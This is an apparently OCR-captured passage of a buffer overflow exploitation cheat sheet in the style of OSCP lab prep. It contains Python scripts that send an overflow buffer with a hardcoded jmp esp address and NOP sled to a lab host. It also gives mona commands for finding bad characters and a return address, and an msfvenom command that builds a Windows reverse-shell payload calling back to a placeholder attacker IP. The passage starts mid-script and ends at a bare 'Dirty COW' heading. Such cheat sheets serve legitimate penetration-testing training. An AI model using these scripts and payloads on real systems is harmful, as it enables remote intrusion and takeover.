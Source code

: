 padding = b""
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(badchars)))

buffer = prefix + overflow + badchars + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**!mona compare -f C:\mona\oscp\bytearray.bin -a**

5. Search for jmp esp avoiding the badchars.

**!mona jmp -r esp -cpb "\x00"**

6. Create your payload using msfvenom.

import socket
import struct

ip = "10.10.70.219"
port = 1337

prefix = b"OVERFLOW7 "
offset = 1306
#390-dummy 
overflow = b"A" * offset 
#0x625011af : jmp esp   
retn = struct.pack("I",0x625011af)
padding = b"\x90"*21
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(payload+padding)))

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py**  
	
	
	
	## Dirty COW
	